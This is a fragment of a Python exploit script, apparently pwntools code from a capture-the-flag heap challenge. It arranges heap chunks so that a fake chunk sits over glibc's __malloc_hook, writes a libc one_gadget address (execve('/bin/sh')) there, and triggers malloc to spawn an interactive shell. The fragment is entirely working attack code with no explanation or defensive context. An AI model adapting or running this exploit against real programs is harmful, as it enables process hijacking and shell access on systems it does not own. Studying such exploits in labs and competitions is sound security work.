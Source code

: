 ```python
    
    add(0x68, p64(malloc_hook - 35) + b'A', b'1')     # malloc_hook
    add(0x68, b'A'*0x68, b'1')  # dummy
    add(0x68, b'A'*0x68, b'1')  # dummy

    '''
    0xe1fa1 execve("/bin/sh", rsp+0x50, environ)
    constraints:
    [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv
    '''

    one_shot = libc.address + 0xe1fa1
    info(f"[one_shot] {hex(one_shot)}")

    add(0x68, b'G'*0x13 + p64(one_shot) + b'\x00'*0x30, b'7')  # in malloc_hook!!

    # call malloc_hook
    p.sendlineafter(b'Input: ', b'1')
    p.sendlineafter(b'length: ', b'1')

    p.interactive()

```